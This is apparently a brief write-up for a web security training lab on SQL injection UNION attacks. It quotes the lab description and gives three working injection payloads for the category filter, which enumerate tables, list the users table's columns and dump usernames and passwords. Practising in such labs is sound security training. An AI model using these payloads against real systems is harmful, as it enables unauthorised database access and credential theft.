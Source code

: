 Title: SQL injection UNION attack, retrieving data from other tables
Level: Practitioner
Desc:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

category=Gifts' OR 1=1 UNION SELECT table_name,'2' FROM information_schema.tables--

category=Gifts' OR 1=1 UNION SELECT column_name,'2' FROM information_schema.columns where table_name='users'--

category=Gifts' OR 1=1 UNION SELECT username,password FROM users--
